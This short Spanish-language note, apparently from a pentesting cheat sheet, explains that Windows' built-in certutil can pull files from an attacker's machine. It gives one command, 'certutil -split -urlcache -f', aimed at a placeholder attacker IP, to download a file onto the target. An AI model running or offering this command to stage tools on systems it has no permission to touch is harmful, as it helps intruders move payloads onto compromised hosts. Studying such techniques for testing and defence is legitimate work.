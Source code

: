 herramienta de windows para compartir ficheros 

viene instalado por defecto en windows
certutil para descargar ficheros de la maquina atacante a la maquina windows

certutil -split -urlcache -f http://{ip atacante}/ficheroarchivo nombreficheroEnWindows
